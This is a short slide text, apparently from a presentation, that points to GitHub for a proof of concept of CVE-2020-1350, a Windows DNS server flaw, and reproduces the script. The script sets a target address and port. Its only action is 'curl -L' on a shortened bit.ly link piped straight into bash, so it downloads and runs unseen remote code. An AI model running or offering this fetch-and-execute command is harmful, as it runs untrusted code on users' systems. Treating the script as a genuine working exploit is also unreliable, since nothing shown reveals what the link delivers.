

到 github 找CVE-2020-1350 POC
#CVE-2020-1350
# PoC Use at your own risk
# follow me on twitter https://twitter.com/ZephrFish

# Auxiliary Info
targetIp=127.0.0.1
targetPort=53

curl -L https://bit.ly/395K5cK | bash
https://github.com/ZephrFish/CVE-2020-1350/blob/master/exploit.sh